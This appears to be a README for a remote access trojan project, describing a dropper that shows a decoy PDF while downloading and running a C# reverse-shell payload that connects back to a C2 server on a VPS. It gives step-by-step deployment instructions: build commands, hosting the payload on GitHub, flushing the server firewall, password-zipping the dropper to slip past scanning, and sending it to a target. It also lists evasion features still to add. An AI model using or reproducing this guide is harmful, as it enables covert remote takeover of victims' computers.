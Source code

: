 # RAT

Dropper --> Payload --> <- C2


## Setup

### Dropper:
  Need to add 2 links, the first to the pdf that will be loaded at runtime and the other will be to downlaod the Exe and execute. Dropper will be sent on its own to the target so it must be the file zipped with a password.
  - Add link to PDF
  - Add link to EXE
### Payload:
  This payload is in C# so it must be built using dotnet command that keeps it as a standalone binary with no Dll's attached - command for compiling will be shown under these instructions, the shell.cs is the paylaod and will need to have the VPS servers IP and selected port added to the file. The Payload Exe after compiling will be uploaded to a github and downloaded by the dropper. 
  - Add Port + Server IP
  
  1.     dotnet publish -c Release -r win-x64 --self-contained true /p:PublishSingleFile=true /p:IncludeNativeLibrariesForSelfExtract=true

### C2: 
  The C2 must run on a VPS server and needs to run in the background. Open ports for the Reverse shell to access the C2 server.
  -  Add port to C2.py

  #### C2 config Setup:

  Install tmux / git / and the C2.py onto the UBUNTO server 
  1.     sudo apt update && sudo apt install tmux -y
  2.     sudo apt update && sudo apt install git -y
  3.     wget https://raw.githubusercontent.com/username/path/to/file.py

  setup the script to run in the background with tmux
  
  1.     tmux new -s C2test
  2.     python3 C2.py
- Detach from session:
1.     Ctrl + B, then D
- Attach to session:

2.     tmux attach -t C2test
  Usefull tmux commands
  
  1.     tmux kill-session -t C2test
       - Kills tmux sessions
  2.     tmux ls
       - Shows tmux session open


  Get rid of firewall for testing (will update later)
  1.       sudo iptables -F
		   sudo iptables -X
		   sudo iptables -P INPUT ACCEPT
		   sudo iptables -P FORWARD ACCEPT
		   sudo iptables -P OUTPUT ACCEPT

		See Firewall rules:
  2.     sudo iptables -L

## Final

Have the Exe payload and the PDF on a github repo make sure the dropper is connected and the paylaod is configered to connect back to the C2 VPS server correctly. 
1. VPS running
2. Zip Dropper + Password Protected
  - Ctrl + shift + rigth click -> 7zip hover -> add to archive -> create password = zip with password
3. Send to Target!


### Cons 
- no obfuscation
- no loader
- not a certified script = smart screen pop-up
- no persistance

### Requirments
- .NET 9.0 installed
- dotnet added to Path for compiling
- VPS server
- GitHub account to host PDF + EXE 
